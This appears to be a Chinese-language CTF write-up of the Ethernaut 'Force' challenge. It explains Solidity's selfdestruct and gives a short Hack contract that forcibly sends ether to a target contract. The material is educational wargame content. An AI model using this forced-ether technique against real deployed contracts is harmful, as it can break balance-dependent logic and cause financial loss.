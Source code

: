 # Force
## 題目
<img width="532" alt="截圖 2024-09-05 下午5 33 22" src="https://github.com/user-attachments/assets/fbb52232-c49f-47ec-b801-a5e27de612de">

目標是讓關卡合約的 balance 大於 0 即可通關。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
喵喵(x)，看到這個合約可能會想說這三小完全就是空的，但我們可以利用 `selfdestruct` 來解題。

## selfdestruct

`selfdestruct` 是用來刪除合約的，並將該合約中剩餘的所有以太幣轉移到指定地址。所以，我們可以利用這個特性，將一個攻擊合約中的以太幣透過 `selfdestruct` 強制轉移到 `Force` 合約中。

### 用法

`selfdestruct` 的語法如下：
```solidity
selfdestruct(address payable recipient);
```

- `recipient`: 銷毀合約後，以太幣會轉移到這個地址，無論該地址是外部帳戶 (EOA) 還是另一個合約地址。
  
當 `selfdestruct` 被調用後：
1. 合約將被永久銷毀，這意味著該合約的程式碼不再存在於區塊鏈上。
2. 合約中的所有剩餘以太幣將被強制轉移到 `recipient` 地址。
3. 該合約在未來也無法再被使用或調用，因為它的程式碼已被清除。

## hack
```solidity
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ 
}

contract Hack {
    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
}
```
